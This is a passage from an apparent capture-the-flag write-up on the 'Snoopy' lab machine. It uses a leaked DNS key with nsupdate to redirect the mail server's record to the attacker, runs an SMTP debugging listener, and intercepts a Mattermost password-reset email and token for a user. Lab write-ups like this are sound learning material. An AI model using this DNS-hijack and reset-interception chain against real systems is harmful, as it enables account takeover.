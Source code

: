 This contains a secret of some sort, and it is clear that updating the DNS records to point to our machine is the exploit here. A bit of Googling about how to update DNS records led me to the `nsupdate` documentation page:

{% embed url="https://linux.die.net/man/8/nsupdate" %}

We can use the entire `key "rndc-key"` part as the key file specified using `-k`. Then, we can run the following commands to update the records AND set up a SMTP server:

```
$ nsupdate -k dns_key 
> server 10.129.85.79
> update  add mail.snoopy.htb 86400 A 10.10.14.9
> send

$ python3 -m smtpd -n -c DebuggingServer 10.10.14.9:25
```

Now we need to find a user who exists on the MatterMost software. After some testing, it seems that `sbrown@snoopy.htb` works based on the emails we found, because sending a password reset using that email works!

```
$ python3 -m smtpd -n -c DebuggingServer 10.10.14.9:25
---------- MESSAGE FOLLOWS ----------
mail options: ['BODY=8BITMIME']
b'MIME-Version: 1.0'
b'Subject: [Mattermost] Reset your password'
b'Content-Transfer-Encoding: 8bit'
b'Precedence: bulk'
b'Reply-To: "No-Reply" <no-reply@snoopy.htb>'
b'Message-ID: <hcy7iqt7goortome-1683638004@mm.snoopy.htb>'
b'To: sbrown@snoopy.htb'
b'Auto-Submitted: auto-generated'
b'From: "No-Reply" <no-reply@snoopy.htb>'
b'Date: Tue, 09 May 2023 13:13:24 +0000'
b'Content-Type: multipart/alternative;'
b' boundary=1eb180a975434612f4fc222189f028924f0b3953f96434f4a070947e60ef'
b'X-Peer: 10.129.85.79'
b''
b'--1eb180a975434612f4fc222189f028924f0b3953f96434f4a070947e60ef'
b'Content-Transfer-Encoding: quoted-printable'
b'Content-Type: text/plain; charset=UTF-8'
b''
b'Reset Your Password'
b'Click the button below to reset your password. If you didn=E2=80=99t reques='
b't this, you can safely ignore this email.'
b''
b'Reset Password ( http://mm.snoopy.htb/reset_password_complete?token=3Db4akc='
b'wn9adntaawingkbho8ctcyzfscm51zjjey7ayx5nzsaxstg7g89ganb8res )'
```

The token has some weird signs in the middle of it, which is not normal actually. Although the link is valid, the token is not. In the above's case, we can ignore all the `=` and `3D` parts, so the correct link is:
